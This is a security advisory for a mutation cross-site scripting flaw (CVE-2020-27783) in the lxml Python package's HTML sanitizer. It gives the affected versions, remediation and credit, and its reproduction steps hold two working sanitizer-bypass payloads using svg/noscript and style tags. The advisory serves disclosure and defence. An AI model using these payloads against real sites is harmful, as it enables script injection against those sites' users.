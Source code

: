```yaml
---
title: Mutation Cross-Site Scripting in lxml
date: 2020-11-27
tags:
	- "python"
	- "xss"
	- "mxss"
	- "bypass"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4286/
cves:
	- "CVE-2020-27783"
---
```

## Summary
The lxml python package is vulnerable to mXSS due to the use of improper parser. The parser used doesn't imitate browsers, which causes different behaviors between the sanitizer and the user's page. This can result in an arbitrary HTML/JS code execution.

## Product
lxml from 1.2 up to 4.6.1

## Impact
Using lxml as a sanitizer might not fulfill its purpose. 

## Steps to reproduce
```
>>> from lxml.html.clean import clean_html
>>> clean_html('<svg><style><img src=x onerror=alert(1)></style></svg>')
>>> clean_html('<noscript><style><a title="</noscript><img src=x onerror=alert(1)>">')
```

### Expected result:
```<svg><style><img src=x onerror=alert(1)></style></svg>```
And
```<noscript><style><a title="</noscript><img src=x onerror=alert(1)>"></style></noscript>```

## Remediation
Update lxml dependency to 4.6.2 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Advisory](https://github.com/advisories/GHSA-pgww-xf46-h92r)
2. Initial commit [89e7aad](https://github.com/lxml/lxml/commit/89e7aad6e7ff9ecd88678ff25f885988b1)
3. Additional commit [a105ab8](https://github.com/lxml/lxml/commit/a105ab8dc262ec6735977c25c13f0bdfcdec72a7)
